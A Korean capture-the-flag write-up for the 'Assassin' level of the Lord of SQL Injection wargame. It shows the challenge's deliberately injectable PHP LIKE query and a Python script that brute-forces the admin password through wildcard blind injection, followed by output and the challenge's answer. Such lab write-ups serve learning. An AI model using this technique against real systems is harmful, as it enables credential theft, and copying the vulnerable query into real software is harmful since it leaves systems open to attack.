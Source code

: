 # **Assassin**
## 1. 문제의도
와일드 카드 사용할 줄 아는가?

----
## 2. 코드
```php
  <?php
    include "./config.php";
    login_chk();
    dbconnect();

    if(preg_match('/\'/i', $_GET[pw]))
      exit("No Hack ~_~");

    $query = "select id from prob_assassin where pw like '{$_GET[pw]}'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));

    if($result['id'])
      echo "<h2>Hello {$result[id]}</h2>";

    if($result['id'] == 'admin')
      solve("assassin");

    highlight_file(__FILE__);
  ?>
```
----

### 1. 통과 조건

pw GET 파라미터 만을 이용해서 admin 을 유도해야 한다. 결론적으로 pw 를 알아내야 하는데 싱글쿼터를 사용할 수 없으므로 like의 와일드 카드를 적극 사용하라는 말인 것 같다.

----
## 3. Solution

그냥 간단히 앞에 앞의 한자리만 찾아서 와일드카드로 admin 유도하면 되는 건가 했는데  
그건 아니였고 계속 guest 만 나오는 걸 보니 앞 부분을 동일하게 해놓은 듯 하다.  

그렇다면 guest 만 나오면 그것을 패스워드로 하고 admin이 나오면 그것을 패스워드로 해야 겠다!!

### My Answers :

이렇게 코드를 작성해서 해결하였다.  
옛날에 코드 날라가기 전에는 admin이랑 guest 둘다 구했었는데  
지금은 동아리 과제가...  

```python
#-*- coding: utf-8 -*-
import string
from web import *

url = "http://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php?pw={}"
# get password : brute forcing : for admin

password=""
tmp_key = ""

for i in range(1,9):
    for c in string.digits + string.letters:
        req = getRequest(url, password+c+"%", show=False)
        page = getPage(req)
        if "Hello admin" in page:
            print "Find Admin",i,c
            password += c
            break
        if "Hello guest" in page:
            print "Find Guest",i,c
            tmp_key = c
    else: password += tmp_key # break 가 아닌 정상종료시에만 작동

    print "Check[{}] password = {}".format(i, password)
    print "-"*20

print "Password :",password

```

```console
> python .\15_Assassin.py
Find Guest 1 8
Check[1] password = 8
--------------------
Find Guest 2 3
Check[2] password = 83
--------------------
Find Admin 3 2
Check[3] password = 832
--------------------
Find Admin 4 e
Check[4] password = 832e
--------------------
Find Admin 5 d
Check[5] password = 832ed
--------------------
Find Admin 6 d
Check[6] password = 832edd
--------------------
Find Admin 7 1
Check[7] password = 832edd1
--------------------
Find Admin 8 0
Check[8] password = 832edd10
--------------------
Password : 832edd10
```

832edd10 클리어~!!  

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.md)**
